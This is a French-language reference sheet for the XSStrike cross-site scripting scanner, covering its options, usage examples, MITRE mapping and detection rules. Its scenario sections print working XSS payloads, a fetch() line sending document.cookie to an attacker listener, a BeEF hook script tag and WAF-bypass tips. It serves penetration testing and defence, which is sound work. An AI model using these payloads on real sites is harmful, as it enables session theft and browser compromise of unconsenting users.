


# XSStrike — Détection et exploitation de XSS (Cross-Site Scripting)
> [!info] **En 1 phrase**
> XSStrike est un framework de détection et d'exploitation XSS en Python : crawler, moteur de fuzzing, génération de payloads adaptés au contexte et détection de WAF.
---

## Overview
| Champ | Valeur |
|---|---|
| Nom complet | XSStrike (Advanced XSS Detection Suite) |
| Description | Suite de détection XSS : analyse de contexte avec parseurs dédiés, génération intelligente de payloads, moteur de fuzzing, crawler, découverte de paramètres, détection WAF, XSS blind et DOM |
| Catégorie | Social Engineering & Phishing |
| Sous-catégorie | Exploitation Web — XSS (Cross-Site Scripting) |
| Fonction principale | Détecter et confirmer les XSS réfléchis/DOM, générer des payloads adaptés au contexte, contourner les WAF |
| Type d'outil | CLI (framework Python) |
| Licence | GNU GPLv3 |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Python 3 |
| Développeur / organisation | Somdev Sangwan (s0md3v) |
| Projet officiel | s0md3v/XSStrike |
| Dépôt officiel | https://github.com/s0md3v/XSStrike |
| Documentation officielle | https://github.com/s0md3v/XSStrike/wiki |
| Date de création | 26 juin 2017 (premier commit GitHub) |
| État du projet | maintenu par intermittence (mise à jour 2026) |
| Dernière version connue | 3.1.6 (paquet Kali Linux, juin 2026 ; bannière « v3.1.5 ») |
| Systèmes compatibles | Linux, macOS, Windows (Python 3 + pip) |

> [!note] Pour vérifier / compléter
> Le paquet Kali `xsstrike` est à la version 3.1.6 (page Kali Tools mise à jour juin 2026) ; le binaire affiche « XSStrike v3.1.5 » dans son aide. La version du dépôt GitHub peut différer — vérifier avec `git log -1` et `python3 xsstrike.py --update`.
---

## Concept
XSStrike (par **s0md3v**) ne se contente pas d'injecter une liste de payloads : il **analyse le contexte** dans lequel le paramètre est réfléchi (corps HTML, attribut, bloc `<script>`, JS string, URL, commentaire…), génère des payloads ciblés pour ce contexte et teste leur exécution réelle. Il embarque un **crawler** pour découvrir les paramètres à tester, un **moteur de fuzzing** pour sonder les valeurs, un module de **détection de WAF** (basé sur les signatures de sqlmap) pour adapter la stratégie, et un mode **blind** pour les XSS aveugles (exfiltration vers un serveur d'écoute). Il sait aussi tester les paramètres **POST** (`--data`), le mode **JSON** (`--json`), l'injection dans le **chemin** (`--path`) et les en-têtes via `--headers`.

Dans une chaîne de pentest web, c'est l'outil qui prend le relais après la détection manuelle d'un reflet : il confirme l'existence du XSS, propose des payloads validés et permet de tester les variantes **blind** et **DOM**. C'est la passerelle naturelle vers les scénarios de vol de session et de phishing via injection ([[Outil - BeEF]], session hijacking), d'où sa place dans la catégorie social engineering de ce vault.


---

## Concepts fondamentaux
| Concept | Explication |
|---|---|
| XSS réfléchi | L'entrée est renvoyée immédiatement dans la réponse (paramètre `?q=...`) sans validation |
| XSS stocké | L'entrée est persistée côté serveur (commentaire, profil) puis rendue à d'autres utilisateurs |
| DOM XSS | La vulnérabilité vit dans le JavaScript client (`document.write`, `innerHTML`) ; XSStrike scane aussi le DOM |
| XSS blind | Payload injecté dans une zone non visible par l'attaquant (formulaire de contact) : exfiltration hors bande |
| Contexte d'écho | Là où le reflet atterrit : corps HTML, attribut (`"`), JS string, bloc `<script>`, URL, style |
| Analyse de contexte | XSStrike utilise 4 parseurs faits main (HTML, attributs, JS…) pour deviner l'échappement nécessaire |
| Générateur de payloads | Produit des payloads « garantis » par analyse contextuelle, ex : `}]};(confirm)()//\` |
| WAF detection | Fuzzing de sondes + signatures `db/wafSignatures.json` (issues de sqlmap) pour identifier le WAF |
| Fuzzing | Injection de valeurs aléatoires pour sonder le comportement du paramètre (`--fuzzer`) |
| Crawler | Parcourt le site pour découvrir de nouvelles URL/paramètres à tester (`--crawl`, basé sur Photon) |
| Paramètres cachés | Découverte de paramètres via `--seeds`/Arjun (module tiers intégré) |
---

## Installation
### Debian / Ubuntu / Kali Linux
```bash
sudo apt update && sudo apt install -y xsstrike
```
### Compilation depuis les sources
```bash
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
pip install -r requirements.txt --break-system-packages
python3 xsstrike.py --help
```
### Installation via pip / pipx (Kali ≥ 2024.4)
```bash
pipx install xsstrike
# Ou en virtualenv :
python3 -m venv .venv && source .venv/bin/activate
pip install -r requirements.txt
```
### Docker
```bash
# Pas d'image officielle ; construire à partir du dépôt (voir PR 436 pour un Dockerfile)
docker build -t xsstrike .
docker run -it --rm xsstrike -u "http://10.10.20.15/search.php?q=test"
```

> [!warning] Prérequis & problèmes potentiels
> - Dépendances : `python3`, `python3-requests`, `python3-fuzzywuzzy`, `python3-tld` (paquet Kali).
> - Sur Kali récent, `pip` hors venv est bloqué : utiliser `--break-system-packages`, un venv ou `pipx`.
> - **Aucun privilège root requis** ; un proxy (Burp) est recommandé pour auditer le trafic (`--proxy`).
> - Erreur connue « fuzzywuzzy isn't installed » : réinstaller le module dans l'interpréteur utilisé (FAQ officielle).
---

## Configuration
XSStrike n'a **pas de fichier de configuration utilisateur standard** : la configuration passe par les **options CLI** et quelques fichiers de données dans le dépôt.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `-u, --url TARGET` | URL cible (avec paramètre à tester) | URL | Cible du scan | `-u "http://10.10.20.15/search.php?q=test"` |
| `--data PARAMDATA` | Données POST à tester | `champ=valeur` | Teste les paramètres POST | `--data "user=test&pass=test"` |
| `--json` | Traite les données POST comme du JSON | flag | Teste les payloads JSON | `--data '{"q":"test"}' --json` |
| `--path` | Injecte les payloads dans le chemin de l'URL | flag | Teste le routing/rewriting | `-u "http://10.10.20.15/item/" --path` |
| `-e, --encode ENCODE` | Encodage des payloads (ex : `base64`) | type d'encodage | Contourne certains filtres | `-e base64` |
| `--seeds ARGS_SEEDS` | Graines de crawl depuis un fichier | fichier | Découverte de paramètres | `--seeds urls.txt` |
| `-f, --file ARGS_FILE` | Payloads à bruteforcer depuis un fichier | fichier | Bruteforce de payloads | `-f payloads.txt` |
| `-l, --level LEVEL` | Niveau de crawl | entier (1-3) | Profondeur du crawl | `-l 2` |
| `--headers [ADD_HEADERS]` | En-têtes HTTP additionnels | `"Cookie: a=b"` | Sessions/authentification | `--headers "Cookie: session=abc"` |
| `--log-file LOG_FILE` | Fichier de log | chemin | Trace les résultats | `--log-file scan.log` |

> [!note] À vérifier
> Les fichiers internes (`db/wafSignatures.json`, plugins) sont modifiables pour étendre la détection WAF et les payloads ; leur format dépend de la version du dépôt.
---

## Architecture interne
XSStrike est un framework Python organisé en modules (arborescence du dépôt s0md3v/XSStrike) :

- **4 parseurs faits main** : parseur HTML, parseur d'attributs, parseur JavaScript et parsing du contexte — ils déterminent *où* et *comment* le reflet est rendu.
- **Générateur intelligent de payloads** : au lieu d'injecter une liste figée, il fabrique des payloads pour le contexte détecté (ex : `}]};(confirm)()//\`).
- **Moteur de fuzzing** : sonde les paramètres avec des valeurs aléatoires pour cartographier le comportement.
- **Crawler multi-threadé** : basé sur **Photon** (projet de s0md3v), découverte d'URL/paramètres ; **Zetanize** (détection de chemins), **Arjun** (découverte de paramètres cachés).
- **Détection WAF** : fuzzing de sondes puis correspondance avec `db/wafSignatures.json` (signatures extraites et modifiées de sqlmap) — détection de ~66 WAF.
- **Moteur d'exécution** : requêtes HTTP (requests), gestion du multithreading (`-t`), du délai (`-d`) et du timeout (`--timeout`) ; mode blind (injection + serveur d'écoute externe).
- **Plugins** : `plugins/retireJS.py` (version modifiée de retirejslib) pour détecter les bibliothèques JS obsolètes.


---

## Commandes
### Commandes principales
```bash
usage: xsstrike.py [-h] [-u TARGET] [--data PARAMDATA] [-e ENCODE] [--fuzzer]
                   [--update] [--timeout TIMEOUT] [--proxy] [--crawl] [--json]
                   [--path] [--seeds ARGS_SEEDS] [-f ARGS_FILE] [-l LEVEL]
                   [--headers [ADD_HEADERS]] [-t THREADCOUNT] [-d DELAY]
                   [--skip] [--skip-dom] [--blind]
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test"` | Tester un paramètre GET | Contexte analysé + payloads + confirmation XSS |
| `python3 xsstrike.py -u "http://10.10.20.15" --crawl` | Crawler le site et tester les paramètres découverts | Liste d'URL/paramètres testés |
| `python3 xsstrike.py -u "http://10.10.20.15/login.php" --data "user=test&pass=test"` | Tester des paramètres POST | Confirmation XSS sur POST |
| `python3 xsstrike.py -u "http://10.10.20.15/page.php?q=test" --fuzzer` | Fuzzer les paramètres | Comportement du paramètre cartographié |
| `python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test" --blind` | XSS blind + exfiltration | Payload blind validé (serveur d'écoute requis) |
| `python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test" --proxy "http://127.0.0.1:8080" --skip` | Passer par Burp, sans confirmation interactive | Tout le trafic dans l'historique Burp |
### Catégories de payloads XSS
| Catégorie | Contexte | Exemple de payload | Usage |
|---|---|---|---|
| HTML body | Reflet dans le corps HTML | `<svg/onload=alert(1)>` | Démonstration classique |
| HTML attribute | Reflet dans un attribut (`"`) | `">` | Sortie de l'attribut |
| JavaScript string | Reflet dans une string JS | `}]};(confirm)()//\` | Casse la string et le bloc |
| JS context / tag | Reflet dans un tag HTML | `</SCRiPT/><DETAILs/+/onpoINTERenTEr%0a=%0aa=prompt,a()//` | Échappe le tag en cours |
| Event handler | Attribution via gestionnaire d'événement | `<A%0aONMouseOvER%0d=%0d[8].find(confirm)>z` | Évite les balises courantes |
| URL / encodage | Contexte URL ou filtre de caractères | `%0a` (newline) dans les payloads | Contourne les filtres simples |
| Blind | Zone hors bande (formulaire de contact) | `"><script src=//10.10.20.15/x.js></script>` | Exfiltration vers le listener |
---

## Options et flags
| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-u, --url` | URL cible | `xsstrike.py -u "http://x/?q=test"` | Basic |
| `--data` | Données POST | `--data "q=test"` | Basic |
| `--fuzzer` | Mode fuzzing | `--fuzzer` | Basic |
| `--skip` | Ne pas demander de continuer | `--skip` | Basic |
| `-t, --threads` | Nombre de threads | `-t 5` | Intermediate |
| `-d, --delay` | Délai entre requêtes | `-d 2` | Intermediate |
| `--timeout` | Timeout des requêtes | `--timeout 10` | Intermediate |
| `-l, --level` | Niveau de crawl | `-l 2` | Intermediate |
| `--headers` | En-têtes additionnels | `--headers "Cookie: a=b"` | Intermediate |
| `--proxy` | Passe par un proxy (Burp) | `--proxy "http://127.0.0.1:8080"` | Intermediate |
| `--crawl` | Crawler le site | `--crawl` | Advanced |
| `--blind` | Injection XSS blind | `--blind` | Advanced |
| `--json` | POST en JSON | `--data '{"q":"x"}' --json` | Advanced |
| `--path` | Injection dans le chemin | `-u "http://x/item/" --path` | Advanced |
| `--seeds` | Graines de crawl | `--seeds urls.txt` | Advanced |
| `-f, --file` | Payloads depuis un fichier | `-f payloads.txt` | Advanced |
| `-e, --encode` | Encodage des payloads | `-e base64` | Expert |
| `--skip-dom` | Ignore le scan DOM | `--skip-dom` | Expert |
| `--update` | Met à jour l'outil | `--update` | Expert |
| `--console-log-level` / `--file-log-level` | Niveau de log | `--console-log-level VULN` | Expert |
| `--log-file` | Fichier de log | `--log-file scan.log` | Expert |

> [!tip] Options les plus utiles au quotidien
> `-u` + `--skip` pour un scan rapide sans confirmation interactive ; `--proxy "http://127.0.0.1:8080"` pour tout garder dans Burp ; `-t 1 --delay 2` pour rester discret face aux WAF ; `--crawl --skip` pour l'automatisation.
---

## Exemples pratiques
### Beginner
```bash
# Tester un paramètre GET réfléchi
python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test"
# Résultat : analyse du contexte, payloads générés, confirmation VULN le cas échéant
```
### Intermediate
```bash
# Tester des paramètres POST + passer par Burp pour auditer le trafic
python3 xsstrike.py -u "http://10.10.20.15/login.php" --data "user=test&pass=test" \
    --proxy "http://127.0.0.1:8080"
```
### Advanced
```bash
# Crawler tout le site, tester les paramètres découverts, sans confirmation
python3 xsstrike.py -u "http://10.10.20.15" --crawl --skip
# Ajouter des en-têtes pour une session authentifiée
python3 xsstrike.py -u "http://10.10.20.15/admin.php?q=test" --headers "Cookie: session=abc123"
```
### Expert
```bash
# XSS blind : injecter un payload qui exfiltre vers un listener
python3 xsstrike.py -u "http://10.10.20.15/contact.php?msg=test" --blind
# Injection dans le chemin (routing/rewriting) + encodage base64
python3 xsstrike.py -u "http://10.10.20.15/item/" --path -e base64 --skip
```
---

## Workflow complet (scénario pas à pas)
1. **Détection manuelle** — identifier un paramètre qui réfléchit l'entrée (ex : `?q=test` retourne `test` dans la page) : un bon candidat XSS.
2. **Confirmer avec XSStrike** :
   ```bash
   python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test"
   ```
   L'outil analyse le contexte (contenu d'attribut, JS…), génère les payloads adaptés et annonce si le XSS est confirmé.
3. **Récupérer le payload validé** — XSStrike affiche le payload qui fonctionne : l'utiliser pour la démonstration (ex : `alert(document.cookie)`).
4. **Adapter à l'exploitation** — remplacer l'alerte par une exfiltration de cookie, une redirection de phishing, ou un payload blind.
5. **Étendre la surface** — lancer `--crawl` pour découvrir d'autres paramètres vulnérables sur la même cible.
6. **Documenter** — consigner le reflet, le payload, le contexte et l'impact (vol de session → bypass MFA potentiel) dans le rapport.

---

## Scénarios avancés
### Scénario 1 : Vol de cookies via XSS blind
Lancer un serveur d'écoute côté attaquant :

```bash
nc -lvnp 4444
```

Puis injecter un payload qui exfiltre le cookie vers le listener :

```javascript
fetch('http://10.10.20.15:4444/?c='+document.cookie)
```

Transmettre le payload à la victime (champ de recherche, formulaire de contact…) : le cookie arrive sur le listener → session hijack (T1539).

### Scénario 2 : Bypass WAF
XSStrike détecte la présence d'un WAF et génère des variantes encodées/contournantes. Combiner avec une analyse manuelle des règles et tester les contextes sans échappement (JS dans `onload=`, template literal, JSON injecté…).

```bash
# Faire passer par Burp et observer comment le WAF répond aux payloads
python3 xsstrike.py -u "http://10.10.20.15/page.php?q=test" --fuzzer --proxy "http://127.0.0.1:8080"
# Variantes manuelles si le WAF bloque : encodage double URL,
# hex/unicode dans JS, balises exotiques (<svg/onload>, )
```
### Scénario 3 : Crawl complet + découverte de paramètres
```bash
# 1. Crawler le site entier avec graines depuis un fichier
python3 xsstrike.py -u "http://10.10.20.15" --crawl --seeds seeds.txt --skip
# 2. Re-tester les paramètres découverts en mode fuzzer
python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test" --fuzzer --skip
```
### Scénario 4 : chaîne complète avec BeEF (post-XSS)
```bash
# 1. Confirmer un XSS avec XSStrike
python3 xsstrike.py -u "http://10.10.20.15/profile.php?name=test" --skip
# 2. Remplacer le payload par le hook BeEF
#    <script src="http://10.10.20.15:3000/hook.js"></script>
# 3. La victime visitant la page, son navigateur est hooké (T1059.007)
# 4. Post-exploitation navigateur depuis le panneau BeEF
```
→ Voir [[Outil - BeEF]] et [[Techniques/XSS (Cross-Site Scripting)|XSS]].

---

## Cybersecurity use cases
| Phase | Utilisation |
|---|---|
| Reconnaissance | Crawl + découverte de paramètres (`--crawl`, `--seeds`, fuzzer) avant exploitation |
| Vulnérabilité | Confirmation des XSS réfléchis, stockés, DOM et blind |
| Exploitation | Vol de session (cookie), hook BeEF, redirections de phishing (T1566.002) |
| Post-exploitation | Session hijacking (T1539), exploitation navigateur via BeEF (T1059.007) |
| Reporting | Payloads validés et contexte documentés pour le rapport d'audit |
---

## MITRE ATT&CK
| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Execution | Command and Scripting Interpreter: JavaScript | T1059.007 | Payloads XSS exécutés dans le navigateur (hook BeEF) | EDR navigateur, monitoring JS | CSP, HttpOnly, encodage de sortie |
| Initial Access | Drive-by Compromise | T1189 | Page compromettant le navigateur de la victime | Monitoring HTTP/HTTPS anormal | CSP, sandbox navigateur, patchs |
| Initial Access | Phishing: Spearphishing Link | T1566.002 | Lien malveillant vers la page vulnérable | Filtrage URL, proxy | Filtrage web, awareness |
| Execution | User Execution: Malicious Link | T1204.001 | Victime clique sur le lien | Proxy web, EDR navigateur | Filtrage web, awareness |
| Credential Access | Steal Web Session Cookie | T1539 | Exfiltration de cookie (blind ou réfléchi) | EDR, logs navigateur | HttpOnly, SameSite, rotation de session |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> XSStrike est avant tout un scanner : les techniques exécutées appartiennent à l'exploitation qui le suit (XSS → T1059.007, vol de cookie → T1539).
---

## Defensive Security
### Signes observables
| Indicateur | Détail |
|---|---|
| Paramètres réfléchis non encodés | Encodage de sortie systématique selon le contexte (OWASP ESAPI / encoders) |
| Payloads `<script>`, `onerror=`, encodages multiples dans les logs | WAF à règles XSS (ModSecurity + CRS), validation stricte des entrées |
| Requêtes avec structures de fuzzing répétitives | Rate limiting, détection de patterns de fuzzing |
| Interactions DNS/HTTP sortantes anormales (blind) | Filtrage sortant, monitoring des lookups DNS externes |
| Cookies sans flag HttpOnly/Secure | `HttpOnly` (vol de cookie impossible), `Secure`, SameSite |
| Bibliothèques JS obsolètes exposées | Détection retireJS (plugin XSStrike côté testeur) ; patchs côté défense |
### Règles de détection (Sigma / Suricata / Snort / YARA)
```yaml
# Exemple Sigma — Web : injection de payloads XSS dans les paramètres (logs web)
title: XSS Payload in Request Parameter
id: 44444444-5555-6666-7777-888888888888
status: experimental
logsource:
    category: webserver
    product: apache
detection:
    selection:
        c-uri-query|contains:
            - '<script'
            - 'onerror='
            - 'onload='
            - 'alert(1)'
            - 'confirm('
    condition: selection
falsepositives:
    - Automated scanners (if allowed)
level: medium
```

```bash
# Exemple Suricata — HTTP GET avec payload XSS dans la query
alert http any any -> any any (msg:"Possible XSS probe"; flow:to_server,established; content:"<script"; http_uri; nocase; classtype:web-application-attack; sid:9500401; rev:1;)
```
---

## Automatisation
```bash
# Bash — tester plusieurs URL en boucle, un log par cible
for target in "http://10.10.20.15/search.php?q=test" "http://10.10.20.15/page.php?id=1"; do
    python3 xsstrike.py -u "$target" --skip --log-file "scan_$(date +%s).log"
done
```

```python
# Python — lancer un scan et analyser le résultat (sous-process)
import subprocess
res = subprocess.run(
    ['python3', 'xsstrike.py', '-u', 'http://10.10.20.15/search.php?q=test', '--skip'],
    capture_output=True, text=True)
print([l for l in res.stdout.splitlines() if 'VULN' in l or 'confirmed' in l.lower()])
```

```bash
# Passer par Burp pour tout archiver
python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test" --proxy "http://127.0.0.1:8080" --skip
```
---

## Output et parsing
XSStrike n'a **pas de sortie JSON native** : les résultats sont émis en **console** avec des niveaux de log (DEBUG, INFO, RUN, GOOD, WARNING, ERROR, CRITICAL, VULN), écrits à l'écran et/ou dans un fichier via `--log-file` / `--file-log-level`.

```bash
# Journaliser et filtrer les vulnérabilités confirmées
python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test" --skip \
    --log-file scan.log --file-log-level VULN
grep -iE "vuln|confirmed|payload" scan.log
```

```python
# Python — extraire les lignes VULN du log
import re
with open('scan.log', encoding='utf-8', errors='ignore') as f:
    for line in f:
        if re.search(r'VULN|confirmed|payload', line, re.I):
            print(line.rstrip())
```

> [!note] À vérifier
> Le format exact des lignes (préfixes `[VULN]`, `[+]`…) varie selon la version ; ajuster les regex après une exécution de contrôle.
---

## Intégrations
```text
Recon (Nmap / wpscan) → XSStrike (scan XSS) → Confirmation payload → BeEF (hook) / Burp (archivage) → SIEM
```

- [[Tools| Outils]] global
- [[Outil - Burp Suite]] — proxy d'archivage et d'analyse (`--proxy`)
- [[Outil - BeEF]] — post-exploitation navigateur après confirmation XSS
- [[Outil - sqlmap]] — complément pour les injections SQL sur les mêmes paramètres
- [[Outil - wpscan]] · [[Outil - nuclei]] — autres scanners web pour croiser les résultats
- [[Outil - OWASP ZAP]] — scanner web complet, alternative graphique
- [[Outil - Nmap]] — reconnaissance préalable (services web, versions)
- [[Techniques/XSS (Cross-Site Scripting)|XSS]] · [[Techniques/Clickjacking|Clickjacking]] — fiches techniques du vault
- [[Techniques/Open Redirect|Open Redirect]] · [[Techniques/CSRF|CSRF]] — attaques web associées
- [[03 - Exploitation Web| Exploitation Web]]

---

## Alternatives
| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - Burp Suite]] | Intégration complète, Repeater/Intruder, extensions | Payant (Pro), courbe d'apprentissage | Audit web approfondi |
| [[Outil - OWASP ZAP]] | Gratuit, GUI, autoscan, API | Plus lent, moins précis sur XSS purs | Audit automatisé |
| [[Outil - wfuzz]] | Fuzzing Web hautement paramétrable | Pas d'analyse de contexte XSS | Fuzzing généraliste |
| [[Outil - nuclei]] | Rapide, templates communautaires | Templates génériques | Scan à grande échelle |
| [[Outil - wpscan]] | Spécialisé WordPress | Limité à WP | Sites WordPress |

> **Quand utiliser Burp plutôt que XSStrike ?** Pour un audit web complet où le XSS n'est qu'une partie du périmètre (autres injections, logique métier) et où l'on veut un travail manuel fin sur chaque reflet. XSStrike est le complément idéal : analyse de contexte et payloads ciblés en ligne de commande, sans quitter le terminal.
---

## Performance
- **Multithreading** : `-t <n>` parallélise les requêtes ; les scans sur gros périmètres gagnent nettement en vitesse.
- **Discretion** : `-d <delay>` et `--timeout` limitent la cadence — indispensable face à un WAF (sinon fausse les résultats).
- **Crawler** : basé sur Photon, rapide mais génère beaucoup de requêtes ; combiner `--skip` et `--level` adapté pour limiter la charge.
- **Fuzzer** : le plus gourmand (volumétrie de requêtes élevée) — à utiliser avec précaution et `-t` réduit sur les cibles sensibles.
- **Consommation locale** : Python + requests, légère ; le DOM scan (`--skip-dom` pour le désactiver) ajoute du temps d'analyse.

> [!note] À vérifier
> Aucune benchmark officielle ; les ordres de grandeur ci-dessus reflètent les usages en lab (THM/HTB, audits).
---

## Troubleshooting
### Common problems
#### Problème : « fuzzywuzzy isn't installed » alors qu'il l'est
- **Cause** : module installé dans un autre interpréteur/environnement (venv, pipx).
- **Solution** : réinstaller dans l'interpréteur utilisé (`pip install fuzzywuzzy`), ou utiliser le paquet Kali (`apt install python3-fuzzywuzzy`).
- **Vérification** : `python3 -c "import fuzzywuzzy; print('ok')"`.

#### Problème : « No parameters found » / rien à tester
- **Cause** : l'URL ne contient pas de paramètre à tester.
- **Solution** : utiliser `--data` pour les POST, `--crawl` pour découvrir des paramètres, `--seeds` pour fournir des graines.
- **Vérification** : `python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test" --skip` doit détecter `q`.

#### Problème : site derrière une authentification
- **Cause** : les requêtes sont redirigées/refusées sans session.
- **Solution** : ajouter le cookie de session : `--headers "Cookie: session=abc123"`.
- **Vérification** : voir le code HTTP renvoyé dans la sortie du scan.

#### Problème : tout est bloqué par le WAF (faux négatifs massifs)
- **Cause** : cadence trop élevée ou payloads standard détectés.
- **Solution** : baisser la cadence (`-t 1 --delay 3`), passer par Burp pour ajuster manuellement, tester des variantes encodées (`-e`).
- **Vérification** : relancer avec `--fuzzer` pour observer la réponse du WAF.

#### Problème : erreurs de connexion (connection reset, timeout)
- **Cause** : site instable, protections anti-bot ou réseau.
- **Solution** : augmenter `--timeout`, réduire les threads, passer par un proxy.
- **Vérification** : `curl -I "http://10.10.20.15/search.php?q=test"` doit répondre.

---

## Sécurité de l'outil
- **Cibles autorisées uniquement** : XSStrike injecte des payloads (exécution JS côté victime) ; un usage non autorisé est illégal — lab/scope écrit uniquement.
- **Charge réseau** : le fuzzer et le crawl génèrent beaucoup de requêtes ; sur un site sensible, cela s'apparente à un DoS léger — limiter `-t`, `--delay`, et rester dans le scope.
- **XSS blind** : les payloads exfiltrent vers votre listener — ne jamais les laisser actifs après le test ; documenter l'URL du listener dans le rapport.
- **Données récupérées** : en cas de vol de cookie en contexte autorisé, ne pas exploiter au-delà du scope ; purger les logs contenant les tokens.
- **Mise à jour** : `--update` tire le code du dépôt GitHub ; vérifier l'intégrité du dépôt (pin à un commit/version).

---

## Limitations
- **Pas de XSS dans WebSockets, en-têtes complexes ou JSON embarqué profonds** : l'outil se concentre sur les contextes HTTP « standards » ; compléter manuellement.
- **Payloads génériques par contexte** : dans un contexte exotique (filtre de caractères, CSP strict, template literal), le payload proposé peut échouer — l'adapter.
- **Faux positifs / faux négatifs** : maintenu par intermittence ; sur les frameworks modernes (React, CSP), croiser avec un test manuel.
- **Pas d'analyse d'impact** : XSStrike confirme l'exécution, mais l'impact (vol de session, exfiltration) doit être prouvé manuellement.
- **Pas de sortie JSON native** : l'intégration dans des pipelines nécessite un parsing du log.
- **Nécessite un reflet identifiable** : sans paramètre réfléchi, peu utile (se limiter au crawl pour découvrir la surface).

---

## Cheatsheet
```bash
# Tester un paramètre GET
python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test"

# Tester des paramètres POST
python3 xsstrike.py -u "http://10.10.20.15/login.php" --data "user=test&pass=test"

# Crawler tout le site (sans confirmation)
python3 xsstrike.py -u "http://10.10.20.15" --crawl --skip

# Mode fuzzing
python3 xsstrike.py -u "http://10.10.20.15/page.php?q=test" --fuzzer

# XSS blind (avec listener)
python3 xsstrike.py -u "http://10.10.20.15/contact.php?msg=test" --blind

# Passer par Burp + archivage
python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test" --proxy "http://127.0.0.1:8080" --skip

# Scan discret (1 thread, délai 3 s)
python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test" -t 1 -d 3 --timeout 10

# Logs des vulnérabilités
python3 xsstrike.py -u "http://10.10.20.15/search.php?q=test" --skip \
    --log-file scan.log --file-log-level VULN

# Mise à jour
python3 xsstrike.py --update
```
---

## Quick reference
| | |
|---|---|
| **À quoi sert-il ?** | Détecter et confirmer les XSS (réfléchi, DOM, blind) avec des payloads adaptés au contexte |
| **Quand l'utiliser ?** | Après détection d'un reflet, ou en crawl automatique sur une cible web autorisée |
| **Commande principale** | `python3 xsstrike.py -u "http://cible/param?q=test" --skip` |
| **Alternative principale** | [[Outil - Burp Suite]] · [[Outil - OWASP ZAP]] · [[Outil - wfuzz]] |
| **Concepts importants** | Analyse de contexte, générateur de payloads, WAF detection, crawl, XSS blind, DOM XSS |
| **Liens associés** | [[Techniques/XSS (Cross-Site Scripting)|XSS]] · [[Outil - BeEF]] · [[Outil - Burp Suite]] · [[Outil - sqlmap]] |
---

## Détection & Défense
| Signe | Défense |
|---|---|
| Paramètres réfléchis non encodés | **Encodage de sortie** selon le contexte (OWASP ESAPI/encoders) |
| Payloads `<script>`, `onerror=`, encodages multiples | **WAF + ModSecurity/CRS**, validation stricte des entrées |
| Vol de cookie malgré XSS | **HttpOnly**, `Secure`, SameSite=Lax/Strict, rotation de session |
| Requêtes de fuzzing répétitives | **Rate limiting**, détection de patterns automatisés |
| Exfiltration DNS/HTTP sortante (blind) | **Filtrage sortant**, monitoring DNS externe, CSP `default-src` |
| Bibliothèques JS obsolètes | **Patchs / upgrade** des libs (détectables par retireJS) |
---

## Tips & Pièges
> [!tip] **Tips**
> - Utilisez `--proxy` pour faire passer XSStrike par **Burp** et garder tout le trafic dans votre historique/scope de travail.
> - En production, baissez le parallélisme (`-t 1` + `--delay`) : un fuzzer trop rapide déclenche les WAF et fausse les résultats.
> - Croisez toujours le payload généré avec une **vérification manuelle** : le contexte réel de la page (attributs, JS inline) prime sur le test automatisé.
> - Pour un XSS blind, préparez d'abord le listener (`nc -lvnp 4444`) et testez le payload sur une page que vous contrôlez.
> - Alimentez `--seeds` avec les URL collectées en reconnaissance pour un crawl plus ciblé et plus rapide.

> [!warning] **Pièges**
> - XSStrike ne teste **pas** les XSS dans les WebSockets, en-têtes ou JSON complexes : complétez à la main.
> - Ses payloads sont générés pour des contextes « standards » : dans un contexte exotique (JS string avec filtre de caractères), le payload proposé peut échouer — adaptez-le.
> - L'outil est maintenu par intermittence : sur les applications modernes (CSP stricts, frameworks) il peut donner des **faux positifs** ou négatifs ; gardez un œil critique.
> - Sans `--skip`, l'outil demande une confirmation interactive — en automatisation, prévoyez `--skip`.
> - Le fuzzer génère beaucoup de requêtes : restez dans le **scope** et les **limites de cadence** de l'engagement.
---

## References
### Official
- GitHub officiel : https://github.com/s0md3v/XSStrike
- Wiki officiel (Usage, FAQ, For Developers) : https://github.com/s0md3v/XSStrike/wiki
- Page Kali Linux Tools : https://www.kali.org/tools/xsstrike/
- FAQ officielle : https://github.com/s0md3v/XSStrike/wiki/FAQ

### Security references
- MITRE ATT&CK T1059.007 — JavaScript : https://attack.mitre.org/techniques/T1059/007/
- MITRE ATT&CK T1189 — Drive-by Compromise : https://attack.mitre.org/techniques/T1189/
- MITRE ATT&CK T1539 — Steal Web Session Cookie : https://attack.mitre.org/techniques/T1539/
- OWASP — XSS : https://owasp.org/www-community/attacks/xss/
